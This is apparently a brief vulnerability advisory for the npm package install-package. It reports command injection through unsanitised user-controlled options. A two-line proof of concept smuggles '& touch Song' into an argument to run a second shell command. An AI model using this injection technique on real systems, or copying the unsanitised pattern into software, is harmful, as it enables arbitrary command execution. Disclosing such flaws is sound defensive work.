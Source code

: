 # Overview
install-package is a package that installs node modules from JavaScript.
Affected versions of this package are vulnerable to Command Injection.
The argument options can be controlled by users without any sanitization.

# Proof of Concept
var root = require("install-package");
root("", "& touch Song");
